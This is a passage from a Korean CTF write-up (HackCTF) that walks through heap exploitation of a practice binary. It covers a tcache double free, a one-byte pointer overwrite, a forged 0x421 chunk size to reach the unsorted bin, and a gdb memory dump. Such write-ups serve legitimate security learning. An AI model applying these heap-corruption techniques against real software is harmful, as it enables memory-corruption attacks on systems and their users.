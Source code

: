
**1) 첫번째 시나리오**

1. ' childheap ' 문제에서 한것처럼 fake chunk로 size를 주작하여 large chunk free시키기

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF/Untitled%207.png)

    - 현재 add로 0번 인덱스에 0x20 사이즈 만큼 malloc을 한후, free(0), free(0)번이 일어난 상황이다
    - 이 상태에서 edit() 함수로 0번인덱스를 선택하여 "\x58"를 삽입한다

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF/Untitled%208.png)

    - 끝에 한바이트가 0x58로 바꼇다. 이상태에서 add(0x20)을 한다면 0x5577034f4250을 청크헤더로 하는 청크를 재할당해주고 입력한 값은 0x5577034f4260에 들어갈 것이다

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF/Untitled%209.png)

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF/Untitled%2010.png)

    - table[1]은 재할당을 받았기 때문에  table[0]의 값과 동일하다.
    - 여기서 add(0x20)을 한번더 한다면 tcache에 0x5577034f3258이 있으므로 0x5577034f3248을 헤더로하는 청크를 반환해줄 것이다. 그리고 입력한 값은 0x5577034f3258에 들어가게 되는데, 여기에는 현재 아까 index(0)의 청크 사이즈인 0x31이 들어가 있다
    - 따라서 해당 값을 변조해서 , free(0)를 하면 되는 것이다

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF/Untitled%2011.png)

    - add(0x20)으로 malloc을 하고 0x421을 입력한 상태이다. 값이 잘 들어갔고, table[0]을 free시키면 청크 사이즈를 0x421로 판단하여 tcache가 아닌, unsorted bin에 넣을 것이다
    - 하지만 현재 해당 청크를 그냥 free 시킨다면, top 청크와 0x20 크기 밖에 차이가 안난상태이므로 에러가 난다.
    - 따라서 0x400 사이즈 청크를 하나 더 할당해주고 top 청크와이 거리를 맞추기 위해 적절한 오프셋을 페이로드 끝부분에 삽입해야 한다

        gdb-peda$  x/150gx 0x5577034f4250
        0x5577034f4250:	0x0000000000000000	0x0000000000000421
        0x5577034f4260:	0x00005577034f4244	0x0000000000000010
        0x5577034f4270:	0x0000000000000000	0x0000000000000000
        0x5577034f4280:	0x0000000000000000	0x0000000000000411
        0x5577034f4290:	0x0000000000000021	0x0000000000000021
        0x5577034f42a0:	0x0000000000000021	0x0000000000000021
        0x5577034f42b0:	0x0000000000000021	0x0000000000000021
        0x5577034f42c0:	0x0000000000000021	0x0000000000000021
        0x5577034f42d0:	0x0000000000000021	0x0000000000000021
        0x5577034f42e0:	0x0000000000000021	0x0000000000000021
        0x5577034f42f0:	0x0000000000000021	0x0000000000000021
        0x5577034f4300:	0x0000000000000021	0x0000000000000021
        0x5577034f4310:	0x0000000000000021	0x0000000000000021
        0x5577034f4320:	0x0000000000000021	0x0000000000000021
        0x5577034f4330:	0x0000000000000021	0x0000000000000021
        0x5577034f4340:	0x0000000000000021	0x0000000000000021
        0x5577034f4350:	0x0000000000000021	0x0000000000000021
        0x5577034f4360:	0x0000000000000021	0x0000000000000021
        0x5577034f4370:	0x0000000000000021	0x0000000000000021
        0x5577034f4380:	0x0000000000000021	0x0000000000000021
        0x5577034f4390:	0x0000000000000021	0x0000000000000021
        0x5577034f43a0:	0x0000000000000021	0x0000000000000021
        0x5577034f43b0:	0x0000000000000021	0x0000000000000021
        0x5577034f43c0:	0x0000000000000021	0x0000000000000021
        0x5577034f43d0:	0x0000000000000021	0x0000000000000021
        0x5577034f43e0:	0x0000000000000021	0x0000000000000021
        0x5577034f43f0:	0x0000000000000021	0x0000000000000021
        0x5577034f4400:	0x0000000000000021	0x0000000000000021
        0x5577034f4410:	0x0000000000000021	0x0000000000000021
        0x5577034f4420:	0x0000000000000021	0x0000000000000021
        0x5577034f4430:	0x0000000000000021	0x0000000000000021
        0x5577034f4440:	0x0000000000000021	0x0000000000000021
        0x5577034f4450:	0x0000000000000021	0x0000000000000021
        0x5577034f4460:	0x0000000000000021	0x0000000000000021